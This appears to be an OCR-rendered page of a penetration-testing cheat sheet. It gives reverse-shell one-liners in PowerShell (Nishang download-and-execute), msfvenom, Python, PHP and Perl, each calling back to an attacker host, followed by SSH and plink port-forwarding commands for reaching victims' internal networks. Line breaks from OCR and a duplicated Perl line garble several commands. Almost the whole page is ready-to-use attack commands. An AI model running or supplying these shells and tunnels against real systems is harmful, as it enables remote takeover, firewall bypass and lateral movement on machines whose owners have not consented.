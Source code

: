 **7: Nishang**
powershell IEX(New-Object
Net.webclient).DownloadString("http://10.10.10.20/Invoke-
PowerShellTcp.ps1")

**8: Other language
JavaScript:**
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
CMD=/bin/bash -f js_le -e generic/none
**Python:**
import pty;import
socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("
10.10.10.20",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(
),2);pty.spawn("/bin/bash")
**Php:**
php -r '$sock=fsockopen("10.10.10.20",4444);exec("/bin/sh -i <&3 >&3 2>&
3");'
php -r '$sock=fsockopen("10.10.10.20",4444);shell_exec("/bin/sh -i <&3 >&
2>&3");'
**Perl:**
perl -e'use Socket;$i="10.10.10.20";$p=
4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,so
ckaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh




{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh

- i");};'

**9: Others
Check this link:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Metho
dology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c**
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet




# Port Forwarding

**Goals
1: Bypass firewall
2: Check ports listening locally
3: Access other LANs the victim connected to**

**Victim's port to Kali**
1: ssh -L 1445:10.10.10.10:445 victim@10.10.10.10 (On **Kali** )
2: ssh -R 10.10.10.20:1445:127.0.0.1:445 kali@10.10.10.20 (On Linux **victim** )
3: cmd /c echo y | .\plink.exe -ssh -l kali -pw 123 -R
10.10.10.20:1445:127.0.0.1:445 10.10.10.20 (On **Windows victim** )

**Victim B's port to Kali through victim A**
1: ssh -L 1445:192.168.1.10:445 victim@10.10.10.10 (On **Kali** )
